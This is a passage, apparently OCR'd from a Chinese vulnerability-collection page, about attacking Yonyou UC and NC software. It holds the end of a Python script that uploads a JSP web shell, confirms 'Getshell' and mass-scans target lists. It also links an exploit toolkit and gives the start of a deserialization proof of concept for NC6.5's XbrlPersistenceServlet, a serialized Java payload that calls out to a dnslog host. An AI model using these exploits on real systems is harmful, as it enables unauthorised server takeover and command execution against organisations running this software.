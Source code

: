 ```python
        if req1.status_code == 200 :
            req3=requests.get(u+"/t00ls.jsp",headers=header, verify=False, timeout=25)

            if  req3.text.index(shellFlag)>=0:
                printFlag = "[Getshell]" + u+"/t00ls.jsp"  + "\n"
                print (printFlag)
                wirte_targets(printFlag, "vuln.txt")
    except :
        pass
    #print(printFlag, end="")


if __name__ == "__main__":
    if (len(sys.argv)) < 2:
        print('useage : python' +str(sys.argv[0]) + ' -h')
    else:
        parser =argparse.ArgumentParser()
        parser.description ='YONYOU UC 6.5 FILE UPLOAD!'
        parser.add_argument('-u',help="url -> example [url]http://127.0.0.1[/url]",type=str,dest='check_url')
        parser.add_argument('-r',help="url list to file",type=str,dest='check_file')
        args =parser.parse_args()
        if args.check_url:
            exp(args.check_url)
        
        if(args.check_file):
            multithreading(exp, args.check_file, 8)
```

当然也可以利用工具

[用友NC-OA漏洞合集](https://github.com/asdasdqkq1/yonyou-nc-exp)

### 3.5 用友 `NC XbrlPersistenceServlet` 反序列化

已知用友 `NC6.5` 版本存在反序列化漏洞，攻击者可以执行系统命令，获取服务端权限。

```
/service/~xbrl/XbrlPersistenceServlet
```

POC:

```python
import requests
import threadpool
import urllib3
import sys
import base64

ip = "x.x.x.x"
dnslog = "*****" #dnslog把字符串转16进制替换该段，测试用的ceye.io可以回显
data = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x73\x72\x00\x0c\x6a\x61\x76\x61\x2e\x6e\x65\x74\x2e\x55\x52\x4c\x96\x25\x37\x36\x1a\xfc\xe4\x72\x03\x00\x07\x49\x00\x08\x68\x61\x73\x68\x43\x6f\x64\x65\x49\x00\x04\x70\x6f\x72\x74\x4c\x00\x09\x61\x75\x74\x68\x6f\x72\x69\x74\x79\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x04\x66\x69\x6c\x65\x71\x00\x7e\x00\x03\x4c\x00\x04\x68\x6f\x73\x74\x71\x00\x7e\x00\x03\x4c\x00\x08\x70\x72\x6f\x74\x6f\x63\x6f\x6c\x71\x00\x7e\x00\x03\x4c\x00\x03\x72\x65\x66\x71\x00\x7e\x00\x03\x78\x70\xff\xff\xff\xff\x00\x00\x00\x50\x74\x00\x11"+dnslog+"\x3a\x38\x30\x74\x00\x00\x74\x00\x0e"+dnslog+"\x74\x00\x04\x68\x74\x74\x70\x70\x78\x74\x00\x18\x68\x74\x74\x70\x3a\x2f\x2f"+dnslog+"\x3a\x38\x30\x78"

uploadHeader={"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"}
```